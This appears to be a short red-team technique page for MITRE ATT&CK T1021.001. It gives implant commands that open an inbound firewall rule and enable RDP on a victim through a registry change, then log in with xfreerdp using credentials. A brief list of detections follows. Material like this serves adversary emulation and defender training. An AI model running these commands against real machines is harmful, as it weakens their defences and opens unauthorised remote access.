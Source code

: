 # [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001/)

## Exploit syntax:

1. Run the following command in your posh implant to your victim:
```powershell
sharpps netsh.exe advfirewall firewall add rule name="enablerdp" dir=in action=allow protocol=tcp localport=any enable=yes
```

2. Verify the  firewall rule has been created:
```powershell
sharpps netsh.exe advfirewall firewall show rule status=enabled name=enablerdp 
```

3. Enable RDP on the remote machine
```powershell
sharpps Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

4. In a blank terminal, run:
```
sudo xfreerdp /v:<IP ADDRESS>:3389 /u:'<domain>\<user>' /p:'<password>'
```
---

## Detections
* Investigate all remote desktop connections.
* Investigate all event code 4624 ( remote logons )
* Look at connections over port 3389

---

## Resouces